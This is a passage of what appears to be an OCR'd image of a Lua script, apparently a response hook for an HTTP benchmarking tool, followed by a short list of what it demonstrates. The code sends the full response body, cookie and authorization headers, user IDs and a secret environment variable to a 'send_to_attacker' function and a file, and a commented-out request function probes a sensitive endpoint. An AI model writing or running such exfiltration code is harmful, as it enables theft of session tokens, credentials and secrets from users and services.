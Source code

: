```markdown
  -- 1. Exfiltrate the entire response body
  send_to_attacker("=== FULL RESPONSE BODY ===")
  send_to_attacker(body)
  write_to_file("=== FULL RESPONSE BODY ===")
  write_to_file(body)

  -- 2. Exfiltrate specific headers (e.g., cookies, authorization tokens)
  for k, v in pairs(headers) do
    if string.find(k:lower(), "cookie") or string.find(k:lower(), "authorization") then
      send_to_attacker("=== SENSITIVE HEADER: " .. k .. " ===")
      send_to_attacker(v)
      write_to_file("=== SENSITIVE HEADER: " .. k .. " ===")
      write_to_file(v)
    end
  end

  -- 3. Attempt to parse JSON and exfiltrate specific fields (if applicable)
  --[[  -- This section requires a JSON library
  local parsed_body = json.decode(body)
  if parsed_body then
    if parsed_body.user and parsed_body.user.id then
      send_to_attacker("=== USER ID ===")
      send_to_attacker(parsed_body.user.id)
      write_to_file("=== USER ID ===")
      write_to_file(parsed_body.user.id)
    end
  end
  ]]

  -- 4. Access environment variables (if any are sensitive)
  local secret_env_var = os.getenv("SOME_SECRET_VARIABLE")
  if secret_env_var then
    send_to_attacker("=== SECRET ENVIRONMENT VARIABLE ===")
    send_to_attacker(secret_env_var)
    write_to_file("=== SECRET ENVIRONMENT VARIABLE ===")
    write_to_file(secret_env_var)
  end
end

-- Example request function (could be used for probing)
-- function request()
--   return "GET /sensitive_endpoint HTTP/1.1\r\nHost: example.com\r\n\r\n"
-- end
```

This example demonstrates:

*   Sending data to a remote server.
*   Writing data to a file.
*   Extracting specific headers.
*   (Commented out) Parsing JSON and extracting specific fields.
*   Accessing environment variables.
*   A basic (commented out) example of how `request` could be used maliciously.
